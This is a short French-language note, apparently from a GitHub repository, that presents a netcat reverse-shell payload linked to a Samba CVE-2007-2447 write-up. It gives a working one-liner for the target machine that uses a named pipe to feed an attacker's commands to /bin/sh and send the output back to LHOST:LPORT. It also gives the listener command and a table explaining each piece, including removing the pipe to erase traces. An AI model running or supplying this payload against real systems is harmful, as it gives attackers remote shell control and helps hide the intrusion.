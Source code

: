 
# Simple Netcat payload
Payload en utilisant Netcat (nc) comme reverse shell.    
  
Source: https://amriunix.com/post/cve-2007-2447-samba-usermap-script/


## Commandes :  
`man mkfifo ... mkfifo - make FIFOs (named pipes)`  
`man nohup  ... nohup  - run a command immune to hangups, with output to a non-tty`  

**Machine cible** : 
```bash
nohup mkfifo /tmp/hago; nc LHOST LPORT 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago
```

**Machine serveur** `LHOST:LPORT` :
```bash
nc -lnvp LPORT
```


| Commande | Explication  |  
|----------|--------------|
|`nc LHOST LPORT 0</tmp/hago      `   | Crée un client qui envoie ce qui est recu sur le pipe `hago` |
|`nc ... \| /bin/sh >/tmp/hago    `  | Exécute avec l'interpréteur bash ce que recoit le client nc et écrit le résultat dans le pipe | 
|`2>&1`                         | Redirige la sortie erreur(2) sur l'affichage standard(1) qui est envoyer par nc au serveur. `2>&1` plutôt que `2>1`. Le second redirigie la sortie erreur dans un fichier nommé '1' | 
|`rm /tmp/hago`                 | On termine en effaçant les traces du payload |


## Résumé :    
Le serveur envoie des commandes exécutées par le client et recois le résultat et les erreurs.  

